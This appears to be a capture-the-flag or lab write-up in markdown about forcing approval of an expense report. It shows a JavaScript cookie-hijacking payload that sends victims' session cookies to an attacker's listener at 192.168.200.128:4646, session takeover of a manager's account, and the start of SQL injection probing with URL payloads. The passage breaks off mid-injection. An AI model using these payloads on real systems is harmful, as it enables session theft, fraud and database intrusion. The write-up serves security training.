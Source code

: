 ## Forcing Expense Payment
First, we send the report for our payment, this has been submitted but not approved.
![[Pasted image 20230629181956.png]]
____
Second, you can see that our manager is **Manon Riviere** maybe he should approve our report.
![[Pasted image 20230629182606.png]]
____
### Cookie Hijacking Directed to Manon Riviere
So, we must be **Manon Riviere** to accept our report, and we could inject another script to do a *Cookie Hijacking* to try to get his cookie.
```shell
sudo python3 -m http.server 4646
```
____
*cookieHijacking.js*
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.200.128:4646/?cookie=' + document.cookie);
request.send();
```
____
Inject code for any user that sees the malicious code sends to us his session cookie.
![[Pasted image 20230629184136.png]]
____
Let's try out all of this cookies.
![[Pasted image 20230629184806.png]]
____
This cookie belongs to out manager and we are going to aprove our expense.
![[Pasted image 20230629185000.png]]
____
Now, as *samuel* user, we can see that our expense has been validated, but no sent for payment.
![[Pasted image 20230629185248.png]]
____
Also, we can see the boss of **Manon Riviere** is **Paul Baudouin** and he is the *Financial approver*.
![[Pasted image 20230629185719.png]]
![[Pasted image 20230629185824.png]]
____
### SQL Injection to Retrieve Paul Password
So, any cookie hijacked doesn't contains the **Paul Baudouin** user.
But this user conaints a panel that sends *queries* to main database, we can use this feature to retrieve user passwords.
![[Pasted image 20230629190143.png]]
____
Let's verify if the query is between *''* or not.
```URL
http://192.168.200.131/site.php?id=2'-- -
```
![[Pasted image 20230629191110.png|1000x300]]
____
So, the query doesn't between *''*.
```URL
http://192.168.200.131/site.php?id=2-- -
```